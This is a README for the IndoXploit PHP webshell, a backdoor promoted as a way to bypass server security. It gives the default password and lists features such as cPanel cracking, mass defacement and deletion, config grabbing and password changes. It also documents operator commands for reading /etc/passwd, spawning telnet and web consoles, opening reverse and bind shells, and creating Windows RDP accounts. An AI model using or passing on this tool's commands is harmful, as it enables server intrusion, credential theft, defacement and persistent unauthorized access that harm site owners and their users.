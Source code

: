 # IndoXploit Webshell V.3

IndoXploit webshell V.3 is an PHP based webshell or backdoor with unique and usefull features. This webshell is originally coded by **agussetyar** from **IndoXploit Coders Team**. IndoXploit Shell has been mentioned repeatedly by the coder that it will make you easily bypass server security. With this shell you can comfortably bypass the server firewall from most secure servers. It is one of the hacker's most preferred backdoor shell.

---

## Screenshot
- login
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/indoxploit-login.PNG "Login Shell")
Default Password : **IndoXploit**

- interface
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/idx-interface.PNG "Shell Interface")
Webshell Interface

## Features
- Mass Password Change
- Fake Root
- Cpanel Crack
- Mass Deface/Delete File
- Zone-H Mass Submit

## How to Use
 - Read File
 usage: rf [filename]
 example: rf /etc/passwd

 - Spawn File/Tools 
 usage: spawn [name]

 [name]
- Adminer (adminer)
 - WebConsole (webconsole)
 - CGI Telnet 1 (cgitelnet1)
 - CGI Telnet 2 (cgitelnet2)
 - PHPINFO (phpinfo)

 example:
 spawn adminer
 spawn webconsole
 spawn cgitelnet1

- Jumping
usage: jumping

- Config Grabber
usage: idxconfig

 - Symlink 
 usage: symlink

 - ***Reverse Shell***
***[Back Connect]***
usage: rvr bc [IP] [PORT] [TYPE]
example:
~~~
rvr bc 127.0.0.1 1337 bash
rvr bc 127.0.0.1 1337 perl
~~~

***Bind Port***
usage: rvr bp [PORT] [TYPE]
example:
~~
rvr bp 1337 perl
~~

 - ***KRDP - Create RDP Account (for windows server only)***
 
 usage: krdp

 - ***Logout From Shell***
 
 usage: logout

 - ***Kill Backdoor***

usage: killme

 ## Contribute
 Drop an email at **shu@indoxploit.or.id** and tell us what your suggestions about how to improve this webshell.

